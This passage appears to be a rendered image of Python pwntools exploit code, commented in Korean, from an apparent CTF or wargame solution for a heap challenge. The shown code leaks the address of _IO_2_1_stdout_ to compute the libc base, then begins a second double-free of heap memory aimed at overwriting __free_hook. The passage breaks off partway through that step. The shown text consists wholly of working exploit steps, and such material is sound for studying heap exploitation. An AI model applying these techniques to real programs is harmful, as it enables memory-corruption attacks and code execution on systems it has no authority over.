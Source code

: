     # tcache: (*) -> _IO_2_1_stdout_ -> ... 
    # --------------------------

    ###############
    # 3. leak address into stdout
    ###############
    p.sendlineafter(b'Edit\n', b'3')
    p.recvuntil(b'Content: ')
    addr_stdout = u64(p.recv(6).ljust(8, b'\x00'))

    print('addr_stdout:', hex(addr_stdout))
    libc_base = addr_stdout - lib.symbols['_IO_2_1_stdout_']
    print('libc_base:', hex(libc_base))

    ###############
    # 4. overwrite __free_hook
    ###############
    offset_free_hook = lib.symbols['__free_hook']
    print('offset_free_hook:', hex(offset_free_hook))
    addr_free_hook = libc_base + offset_free_hook
    print('addr_free_hook:', hex(addr_free_hook))

    # 앞서 수행한 것 처럼, doubly free memory 를 한번 더 발생시킨다.
    # chunk1 과 다른 크기의 메모리를 할당해야 함에 주의한다
    # Doubly free memory
    # alloc chunk2
    p.sendlineafter(b'Edit\n', b'1')
    p.sendlineafter(b'Size:', b'80')
    p.sendafter(b'Content:', PAYLOAD.encode())

    # tcache: (*) -> NULL
    # --------------------------

    # free chunk2
    p.sendlineafter(b'Edit\n', b'2')

    # tcache: (*) -> chunk2
    # --------------------------

